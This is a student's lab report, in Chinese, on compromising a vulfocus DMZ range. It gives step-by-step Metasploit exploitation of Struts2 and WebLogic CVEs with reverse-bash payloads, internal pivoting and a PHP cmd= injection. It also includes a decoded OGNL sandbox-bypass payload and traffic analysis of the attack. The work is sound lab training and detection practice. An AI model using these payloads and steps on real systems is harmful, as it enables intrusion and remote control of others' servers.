# 王越-202212063074-网络安全实践总报告及个人实践心得
# 漏洞攻防场景初体验
## [DMZ实验仓库地址](https://github.com/chjhcc/2025-CyberspaceSecurityPractices/tree/%E7%8E%8B%E8%B6%8A/yorandia)

## 1.环境搭建：
### 网络拓扑：
**kali-attacker：192.168.70.7**
**kali-victim：192.168.70.4**

### 搭建过程：
* 在启用好的vulfocus镜像中，找到网卡管理，在[老师提供的连接中](https://ctf-game/fofapro/vulfocus/DMZ) 中找到使用cat命令找到需要添加的网卡信息，并添加到网卡管理中。
* 具体网卡管理：


* 这样就可以编排我们的场景：
1. 第一层靶机：```struts2-cve-2020_17530:latest```容器，端口选择开放，这样我们就得到了唯一开放的入口。
2. 第一层网卡：DMZ,直接添加就好
3. 第二层靶机：三个```weblogic-cve_2019_2725:latest```容器，端口选择关闭，因为我们不能有第二个入口靶标志，所以需要将这个容器的端口关闭，这样我们就直接无法进入到第二层靶机了。
4. 第二层网卡：核心网，直接添加就好
5. 第三层靶机：```c4pr1c3/vulshare_nginx-php-flag:latest```
* 具体场景编排如下：

**将其保存并发布后，点击启动场景**
* 启动场景：
* 根据下m面访问地址的端口号，访问对应的靶机：


**ps:这里我用了三次场景，每次端口都会随机，所以需要根据端口号进行访问。:)**

## 2.拿到五个flag的全过程
### 攻破第一个靶标
1. 在受害者主机中启用抓包：
```bash
docker ps #查看struts2-cve-2020_17530:latest容器的ID
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```


2. 在攻击者主机中：
*安装metasploit*：
```bash
sudo apt install -y metasploit-framework
# 初始化 metasploit 本地工作数据库
sudo msfdb init

# 启动 msfconsole
msfconsole
# 确认已连接 pgsql
db_status
# 建立工作区
workspace -a demo
```






3. 通过**上帝视角**我们知道我们要攻击的是struts2漏洞，所以直接在metasploit中搜索struts2漏洞，并使用exp进行攻击：
```bash
search struts2 # 搜索struts2漏洞
## 查找出来后可用info查看信息
info 4
```



*ps：这里有个小插曲是跟着老师配错了exploit*

接着我们就要用合适的exp以及它的payload
```bash
use exploit/multi/http/struts2_multi_eval_ognl
```

* 配置payload：
```bash
search payload ##查找payload
set payload payload/cmd/unix/reverse_bash ##因为要拿到反弹shell才好拿到flag
```

* 使用```show options```查看参数，并使用```set```进行改变参数
```bash
show options
set RHOSTS 192.168.70.4
set rport <your_port>
set LHOST 192.168.70.7
```



* 这时exp参数已经设置完毕了，我们直接使用```exploit -j```进行攻击

**看到 shell seeion1 open，攻击成功**
* 这时我们用```seeions -l``` 查看一下session, 并且使用```sessions -i 1```进入session
**在/tem 目录下执行ls -la，可以看到flag**

* 提交到vulfocus中就可以了

### 立足第一个靶机发现第二到四个靶标
**由于我们拿到了第一个反弹shell，在metasploit中我们可以升级这个shell**
```bash
sessions -u 1 ## 使用sessions -u 1进行升级
```

* 升级这个shell后，我们就能进行更加大胆的操作
* 提交一些基础命令：
```
ipconfig
arp
```


**这里可以看到第一个靶机后还藏着一个网卡以及，能推测出网络后还有至少一层内网，以及这个子网下的主机**

**所以我们需要对这个这个网卡进行扫描**
**但由于它在内网，所以我们需要一个正向代理让路由都通过这个代理即虚拟路由，我们通过这个虚拟路由就能扫描到这个网卡下的所有主机**
```bash
run autoroute -s 192.170.84.0/24 ## 虚拟路由
run autoroute -p
```

* 这样我们就拿到了这个虚拟路由
```Ctrl+z```退出并且在后台挂住这个session
* 接着我们需要在metasploit中搜索端口扫描工具
```bash
search portscan ## 搜索端口扫描工具
use auxiliary/scanner/portscan/tcp ## 选择tcp端口扫描工具
show options ## 查看参数
set RHOSTS 192.170.84.2-254 ##根据子网掩码推导
set ports 7001 ##根据上帝视角
set THREADS 10 ## 设置线程数

run ## 运行扫描
```



**说明7001端口扫描出来是开放的**
* 但是我们还需要验证
```bash
curl http://192.170.84.2:7001/ -vv ## 验证7001端口是否开放
```


**404 说明网络层联通只是应用层错误**
这样就证明了我们的内网确实有三个靶机在7001端口开放，所以就发现了第2到4个靶标

### 攻破2、3、4靶标
* 由于我们处于上帝视角，我们直到第二层主机存在weblogic漏洞，所以我们直接通过exploit进行攻击
*  搜索weblogic漏洞：
```bash
search cve-2019-2725
use exploit/multi/weblogic/weblogic_deserialization_asyncresponseservice ## 选择weblogic_deserialization_asyncresponseservice这个exp
show options ## 查看参数
set RHOSTS 192.170.84.2 ## 攻击目标
set lport 7001
set lhost 192.168.70.7
run -j
```


```bash
sessions -i 3

ls /tem ## 查看flag
```

* 这样就拿到了第二个flag
* 同理，我们只要改变上面options中的RHOSTS即可，就可以拿到第三个，第四个flag
```bash
set RHOSTS 192.170.84.3
exploit -j
sessions -i 4

ls /tem
```


```bash
set RHOSTS 192.170.84.4
exploit -j
sessions -i 5

ls /tem
```


* 至此，我们拿到了2、3、4个flag，提交到vulfocus中即可

### 发现第五个靶标
* 我们将刚刚拿到的三个shell全部升级为metepreter shell
```bash
sessions -u 3
sessions -u 4
sessions -u 5
```

* 在每个shell中使用```ipconfig```查看接口
**在192.170.84.4的shell中我们发现了第三个网卡**


**这样就说明了还有第三层内网和子网**

**说明我们找到了第五层靶标**

### 攻破第五个靶标
* 由于我们只知道网卡，不知道开放的ip和端口，通过**上帝视角**，我们只知道第三层是一个nginx-php-flag:latest的容器，开放的是80端口，我们可以选择用proxychain sock5代理来执行nmap是扫描


* 利用用上述代理我们可以执行```proxy sudo nmap -vv -n -p 80 -Pn -sT 192.169.85.2-254```
* 这样我们就可以扫描这个网段中那些ip是开放的

**这里实验我用的是穷举法**

* 在发现第三张网卡的主机即192.170.84.4的升级shell中再输入一个shell
通过```wget```命令来逐步验证哪些ip是开放的
```bash
wget http://192.169.85.1
wget http://192.169.85.2
wget http://192.169.85.3
...
```
* 按照常理来说，可能要1-254全部运行一遍，但是这里运气好，找到了可以访问的网页

*ps:这里我以为85.1确实是正确的ip，但是其实正确的确实是85.2*
看到有网页回显后，利用linux写法将保存下来，然后使用```cat```命令查看flag
```shell
wget "http://192.169.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result ## 保存到/tmp/result中并查看
```

* 提交到vulfocus中即可


**这样我们就拿到了所有的flag**

## 3.实验反思
* 1、对于第二层内网，我们知道具体的端口，所以直接进行利用即可
* 2、对于漏洞，我们知道具体漏洞类型，所以能直接使用exp和对应的payload来进行利用
* 3、配置好proxychain的sock5代理后，我们就能通过proxychain来实现内网的扫描，但是扫描出来的正确ip也是被过滤的，这一点需要通过wireshark抓取[被害者主机的包](./tcpdump.pcap)手动分析

# 漏洞攻防场景DMZ之漏洞利用检测

## 第一层靶机漏洞利用检测
* 将在受害者主机中抓的网络包进行wirshark分析
* 查找对入口靶标的http请求

**可以发现攻击者发送了http请求，让靶机漏斗利用成功**

* 追踪tcp流


* 分析这个tcp流：
1. POST报文概述
- 请求方法: ```POST / HTTP/1.1```（针对根路径）
- Host: ```192.168.70.4:8224```（目标服务器IP和端口）
- User-Agent: 伪装成Chrome/Edge浏览器（常见于攻击中，以绕过基础WAF检测）
- Content-Type: ```application/x-www-form-unlencoded```（应为application/x-www-form-urlencoded的拼写错误，但Struts2通常仍会处理）
- Content-Length: 1587（表示Body长度）
- Body参数: id=...（包含恶意URL编码的Ognl表达式）

2. Body的核心是id参数的值，它是一个URL编码的Ognl（Object-Graph Navigation Language）表达式。Ognl是Struts2框架用于处理视图层数据的表达式语言，但不当处理可导致注入漏洞。
```ognl
# URL解码后的Ognl表达式

%{
  (#instancemanager=#application["org.apache.tomeat.InstanceManager"]).
  (#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).
  (#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).
  (#bean.setBean(#stack)).
  (#context=#bean.get("context")).
  (#bean.setBean(#context)).
  (#macc=#bean.get("memberAccess")).
  (#bean.setBean(#macc)).
  (#emptyset=#instancemanager.newInstance("java.util.HashSet")).
  (#bean.put("excludedClasses",#emptyset)).
  (#bean.put("excludedPackageNames",#emptyset)).
  (#execute=#instancemanager.newInstance("com.alibaba.fastjson.util.JavaBeanInfo")).
  (#execute.exec('bash -c {echo,<base64-command>}|{base64,-d}|bash'))
}
```
- 关键操作:

  - 获取关键对象：通过```#application和#attr```获取Struts2的```InstanceManager和ValueStack```（核心上下文对象）。

  - 操纵```BeanMap```：创建```BeanMap```对象操作上下文，获取```memberAccess```（控制方法访问权限）。

  - 绕过安全限制：设置```excludedClasses```和```excludedPackageNames```为空集合，禁用Struts2的安全沙箱，允许调用任意类和方法。

  - 执行命令：创建```com.alibaba.fastjson.util.JavaBeanInfo```实例，调用其exec方法执行系统命令。

  - 命令结构：**```bash -c {echo,<base64>}|{base64,-d}|bash```**，用于解码并执行Base64编码的命令。

- base64编码的命令结构如下：
```echo  "exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('...')[0]).decode('utf-8'))" | python3 || python2```

从而执行了返回bash的操作，从而出现了反弹shell

## 第一层内网靶标漏洞利用检测

* tcp流分析

- 数据流关键特征分析
1. 请求特征
* 请求路径：```POST /_async/AsyncResponseService HTTP/1.1```
* 直接命中漏洞暴露的异步服务接口。

* **Content-Type**：```text/xml```
* 符合SOAP请求格式，用于触发XML解析。

* **SOAPAction**：空值
* 攻击者刻意留空以绕过某些过滤规则。

2. 漏洞利用原理
- 漏洞触发点：WebLogic在解析```WorkContext```标签内的XML数据时，使用```XMLDecoder```进行反序列化，未对用户输入进行有效过滤。

* 攻击链构造：daoao
攻击者构造包含```ProcessBuilder```类的恶意XML，通过SOAP请求提交至漏洞接口。
WebLogic解析```WorkContext```时，触发```XMLDecoder```反序列化操作，加载并执行攻击者指定的命令。
命令执行后，建立反向Shell连接至攻击者控制的服务器（```192.168.70.7:4444```）。

- 绕过防护：
使用```void、array```等标签绕过WebLogic黑名单过滤。
通过Bash命令编码混淆，规避基础的关键字检测。

**攻击成功证据**
* 载荷有效性：
成功调用```ProcessBuilder```执行系统命令。
反向Shell命令符合典型攻击模式（```/dev/tcp为```Bash特有功能）。

* 响应特征：
HTTP 202状态码与漏洞利用场景吻合（无详细错误，静默执行）。

* 环境关联：
攻击目标IP（```192.168.70.7```）与漏洞主机（```192.170.84.3```）处于同一内网段，符合横向渗透逻辑。

## 第二层内网靶标漏洞利用检测
**在攻击完成后，我始终找不到第一层内网到第二层内网的http报文，所以我直接选择了分析自己起的镜像**

* 在受害者主机中进行抓包
```sudo tcpdump -i eth1  -s 0 -w dmz.pcap```

* 在攻击者主机中进行wget命令行注入
```wget "http://192.168.70.4:14909/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result```

* 在受害者主机中进行wireshark抓包分析，过滤条件为```ip.addr==192.168.70.7```

**可以看到攻击过程**
* 对这个攻击报文进行http流分析

### 漏洞利用分析
1. 请求中的 ```cmd=ls%20/tmp``` 参数被直接传递给PHP的命令执行函数
2. 服务器后台直接执行```/bin/sh -c "ls /tmp"```  用户提供的命令，直接拿到了flag
# 网络靶场的二次搭建和强化学习

## GitHub仓库：[第二次实验仓库地址](https://github.com/chjhcc/2025-CyberspaceSecurityPractices/tree/%E7%8E%8B%E8%B6%8A/yorandia-2)
## 实验环境
- 主机：
    - kali victim:192.168.70.4
    - kali attacker:192.168.70.7
-  环境搭建：vulfocus
    - 网卡：
      - 核心网：192.169.85.0/24
      - 三层王：192.169.76.0/24
      - DMZ: 192.170.84.0/24
      - 迷惑网卡: 192.168.100.0/24
    - 漏洞容器
      - vulfocus/elasticsearch-cve_2015_1427:latest
      - vulfocus/thinkphp-cve_2018_1002015:latest
      - vulfocus/redis-cve_2022_0543:latest
      - vulfocus/jenkins-cve_2018_1000861:latest
      - c4pr1c3/vulshare_nginx-php-flag:latest
## 漏洞简介
1. **elasticsearch-cve_2015_1427**
- Elasticsearch是一个基于Lucene的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于RESTful web接口。Elasticsearch是用Java语言开发的，并作为Apache许可条款下的开放源码发布，是一种流行的企业级搜索引擎。
- 2014年爆出过一个远程代码执行漏洞(CVE-2014-3120),该漏洞产生原因是由于ElasticSearch使用的脚本引擎支持脚本代码MVEL作为表达式进行数据操作，攻击者可以通过MVEL构造执行任意java代码。

- 后来脚本语言引擎换成了Groovy，并且加入了沙盒进行控制，危险的代码会被拦截，结果这次由于沙盒限制的不严格，导致远程代码执行。

2. **thinkphp-cve_2018_1002015**
- ThinkPHP是一个轻量级的中型框架，是从Java的Struts结构移植过来的中文PHP开发框架。它使用面向对象的开发结构和MVC模式，并且模拟实现了Struts的标签库，各方面都比较人性化，熟悉J2EE的开发人员相对比较容易上手，适合php框架初学者。
ThinkPHP的宗旨是简化开发、提高效率、易于扩展，其在对数据库的支持方面已经包括MySQL、MSSQL、Sqlite、PgSQL、
Oracle，以及PDO的支持。ThinkPHP有着丰富的文档和示例，框架的兼容性较强，但是其功能有限，因此更适合用于中小项目的开发。

3. **redis-cve_2022_0543**
- Redis是一种非常广泛使用的缓存服务，但它也被用作消息代理。客户端通过套接字与 Redis 服务器通信，发送命令，服务器更改其状态（即其内存结构）以响应此类命令。Redis 嵌入了 Lua 编程语言作为其脚本引擎，可通过eval命令使用。Lua 引擎应该是沙盒化的，即客户端可以与 Lua 中的 Redis API 交互，但不能在运行 Redis 的机器上执行任意代码。
- CVE-2022-0543漏洞影响的版本只限于Debian 和 Debian 派生的 Linux 发行版（如Ubuntu）上的 Redis 服务。
安全研究人员发现在 Debian 上，Lua 由 Redis 动态加载，且在 Lua 解释器本身初始化时，module和require以及package的Lua 变量存在于上游Lua 的全局环境中，而不是不存在于 Redis 的 Lua 上，并且前两个全局变量在上个版本中被清除修复了，而package并没有清楚，所以导致redis可以加载上游的Lua全局变量package来逃逸沙箱。

4. **jenkins-cve_2018_1000861**
- Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

- 通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。


- att&ck Navigator

